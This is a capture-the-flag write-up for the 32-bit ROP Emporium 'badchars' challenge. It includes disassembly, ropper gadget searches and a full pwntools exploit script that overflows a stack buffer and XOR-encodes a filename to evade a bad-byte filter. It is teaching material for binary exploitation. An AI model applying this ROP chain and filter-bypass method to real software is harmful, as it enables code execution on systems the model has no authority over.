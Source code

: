 # badchars - 32 Bit
Program execution:
```
badchars by ROP Emporium
x86

badchars are: 'x', 'g', 'a', '.'
> <input_here>
```
Run checksec: `checksec ./badchars32`
```
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
```
Again, `main` call `pwnme`, which is defined in the given libbadchars32.so.

Disassembling libbadchars32.so shows that `pwnme` unsafely reads too many (0x200) bytes in to a 32 byte buffer at `ebp-0x28`:
```assembly
push    0x200 {var_44}
lea     eax, [ebp-0x38]
add     eax {var_2c}, 0x10
push    eax {var_2c} {var_48}
push    0x0
call    read
```

We also find some code that checks our input for bad characters ('x'/0x78, 'g'/0x67, 'a'/0x61, '.'/0x2E). If any of these characters are found, they will be replaced with 0xeb which will invalidate our rop chain, making it incorrect.
```c
0000072a  puts("badchars are: 'x', 'g', 'a', '.'")
0000073c  printf(data_8bd)
00000755  int32_t eax_1 = read(0, &var_2c, 0x200)
000007b5  for (int32_t var_38 = 0; var_38 u< eax_1; var_38 = var_38 + 1)
000007a2      for (int32_t var_34_1 = 0; var_34_1 u<= 3; var_34_1 = var_34_1 + 1)
00000787          if (*(&var_2c + var_38) == *(badcharacters + var_34_1))
0000078e              *(&var_2c + var_38) = 0xeb
```

Like in the last challenge, there is a `print_file` function which will print a file specified by the string argument (filename string address). So we want to pass "flag.txt" into this function.
Running `rabin2 -z badchars32` reveals that there is no flag.txt string:
```
[Strings]
nth paddr      vaddr      len size section type  string
―――――――――――――――――――――――――――――――――――――――――――――――――――――――
0   0x000005e0 0x080485e0 11  12   .rodata ascii nonexistent
```
Let's find a writeable area of memory, where we can write our "flag.txt" string.
`readelf -S badchars32`:
```
There are 30 section headers, starting at offset 0x17a4:

Section Headers:
  [Nr] Name              Type            Addr     Off    Size   ES Flg Lk Inf Al
  [ 0]                   NULL            00000000 000000 000000 00      0   0  0
  [ 1] .interp           PROGBITS        08048154 000154 000013 00   A  0   0  1
  [ 2] .note.ABI-tag     NOTE            08048168 000168 000020 00   A  0   0  4
  [ 3] .note.gnu.build-i NOTE            08048188 000188 000024 00   A  0   0  4
  [ 4] .gnu.hash         GNU_HASH        080481ac 0001ac 00003c 04   A  5   0  4
  [ 5] .dynsym           DYNSYM          080481e8 0001e8 0000b0 10   A  6   1  4
  [ 6] .dynstr           STRTAB          08048298 000298 00008d 00   A  0   0  1
  [ 7] .gnu.version      VERSYM          08048326 000326 000016 02   A  5   0  2
  [ 8] .gnu.version_r    VERNEED         0804833c 00033c 000020 00   A  6   1  4
  [ 9] .rel.dyn          REL             0804835c 00035c 000008 08   A  5   0  4
  [10] .rel.plt          REL             08048364 000364 000018 08  AI  5  23  4
  [11] .init             PROGBITS        0804837c 00037c 000023 00  AX  0   0  4
  [12] .plt              PROGBITS        080483a0 0003a0 000040 04  AX  0   0 16
  [13] .plt.got          PROGBITS        080483e0 0003e0 000008 08  AX  0   0  8
  [14] .text             PROGBITS        080483f0 0003f0 0001d2 00  AX  0   0 16
  [15] .fini             PROGBITS        080485c4 0005c4 000014 00  AX  0   0  4
  [16] .rodata           PROGBITS        080485d8 0005d8 000014 00   A  0   0  4
  [17] .eh_frame_hdr     PROGBITS        080485ec 0005ec 000044 00   A  0   0  4
  [18] .eh_frame         PROGBITS        08048630 000630 000114 00   A  0   0  4
  [19] .init_array       INIT_ARRAY      08049efc 000efc 000004 04  WA  0   0  4
  [20] .fini_array       FINI_ARRAY      08049f00 000f00 000004 04  WA  0   0  4
  [21] .dynamic          DYNAMIC         08049f04 000f04 0000f8 08  WA  6   0  4
  [22] .got              PROGBITS        08049ffc 000ffc 000004 04  WA  0   0  4
  [23] .got.plt          PROGBITS        0804a000 001000 000018 04  WA  0   0  4
  [24] .data             PROGBITS        0804a018 001018 000008 00  WA  0   0  4
  [25] .bss              NOBITS          0804a020 001020 000004 00  WA  0   0  1
  [26] .comment          PROGBITS        00000000 001020 000029 01  MS  0   0  1
  [27] .symtab           SYMTAB          00000000 00104c 000440 10     28  47  4
  [28] .strtab           STRTAB          00000000 00148c 000213 00      0   0  1
  [29] .shstrtab         STRTAB          00000000 00169f 000105 00      0   0  1
Key to Flags:
  W (write), A (alloc), X (execute), M (merge), S (strings), I (info),
  L (link order), O (extra OS processing required), G (group), T (TLS),
  C (compressed), x (unknown), o (OS specific), E (exclude),
  p (processor specific)
```

So we know we need to write "flag.txt" to .data, but what ROP gadgets can we use to achieve that? We need to find `mov` gadgets that work with memory address (`[reg]` notation). We also bear in mind our bad bytes to filter out: ('x'/0x78, 'g'/0x67, 'a'/0x61, '.'/0x2E)
`ropper -f badchars32 --search 'mov [???], ???' -b 7867612E`:
```
[INFO] File: badchars32
0x0804854f: mov dword ptr [edi], esi; ret;
```
So we have 1 gadgets that lets us move the value in `esi` into the address specified by the value of `edi`. So now we need gadgets to pop data off the stack into `esi` and `edi`
`ropper -f badchars32 --search 'pop esi; pop edi;' -b 7867612E`:
```
[INFO] File: badchars32
0x080485b9: pop esi; pop edi; pop ebp; ret;
```
We have a gadget that will let us pop `esi` and `edi` as needed but also `ebp` which we can just load dummy data into.
Since we can only move 4 bytes at a time, we will have to do 3 moves. One for "flag", one for ".txt" and one for "\x00\x00\x00\x00" so that our string ends with a null terminator.
Each time we write 4 bytes, remember we need to offset the .data address to write to, by 4.

However we aren't done. We have to account for the fact that 'g', 'a' and '.' are bad bytes but they are required to represent the string "flag.txt". We'll need to encrypt this string in our exploit to bypass badchar checks, then we can decrypt it once it's already in memory.
An easy encryption technique is `xor`.
`ropper -f badchars32 --search 'xor' -b 7867612E`:
```
[INFO] File: badchars32
0x08048713: xor byte ptr [ebp + 0xe], cl; and byte ptr [edi + 0xe], al; adc al, 0x41; ret;
0x08048547: xor byte ptr [ebp], bl; ret;
0x080485cf: xor ebx, dword ptr [edx]; add byte ptr [eax], al; add esp, 8; pop ebx; ret;
```
Luckily for us, we have an `xor` gadget so this is actually a viable technique. Since the `xor` is done byte at a time (lowest byte of the 4-byte register, as we're deal with little endian), we'll need some gadgets to load target address into `ebp` and a gadget to load our bitmask (for `xor`) into `ebx`.
`ropper -f badchars32 --search 'pop ebp' -b 7867612E`:
```
[INFO] File: badchars32
0x08048525: pop ebp; lea esp, [ecx - 4]; ret;
0x080485bb: pop ebp; ret;
```
`ropper -f badchars32 --search 'pop ebx' -b 7867612E`
```
[INFO] File: badchars32
0x080485b8: pop ebx; pop esi; pop edi; pop ebp; ret;
0x0804839d: pop ebx; ret;
```

Exploit script:
```python
#!/usr/bin/python3

from pwn import *

PROG_NAME = "./badchars32"

p = process(PROG_NAME)
elf = p.elf
rop = ROP(elf)

if args.ATTACH:
    gdb.attach(p, '''break main''')

bad_bytes = b'xga.'
# ascii is 0-127, so we can just xor 128
bitmask = 1<<7

data_addr = 0x0804a018
mov_ptr_edi_addr = 0x0804854f       # mov dword ptr [edi], esi; ret;
pop_esi_edi_ebp_addr = 0x080485b9   # pop esi; pop edi; pop ebp; ret;
xor_ptr_ebp_bl = 0x08048547         # xor byte ptr [ebp], bl; ret;
pop_ebp = 0x080485bb                # pop ebp; ret;
pop_ebx = 0x0804839d                # pop ebx; ret;
p.recvuntil(b'> ')

payload = b'A' * (0x28 + 0x4)

for i, string in enumerate([b'flag', b'.txt', b'\x00'*4]):
    # build our string, 4 bytes at a time

    payload += p32(pop_ebx)
    payload += p32(bitmask)
    payload += p32(pop_esi_edi_ebp_addr)

    # xor each byte to bypass badchars check
    for c in string:
        payload += p8(c ^ bitmask)

    payload += p32(data_addr + i*4)
    payload += b'AAAA'
    payload += p32(mov_ptr_edi_addr)

    for j in range(4):
        # in-memory data manipulation to undo xor
        payload += p32(pop_ebp)
        payload += p32(data_addr + i*4 + j)
        payload += p32(xor_ptr_ebp_bl)


# with our .data set up, we can call print_file
payload += p32(elf.symbols['print_file'])
payload += b'A' * 4
payload += p32(data_addr)

p.sendline(payload)

p.interactive()
```

And we get the flag:
```
Thank you!
ROPE{a_placeholder_32byte_flag!}
```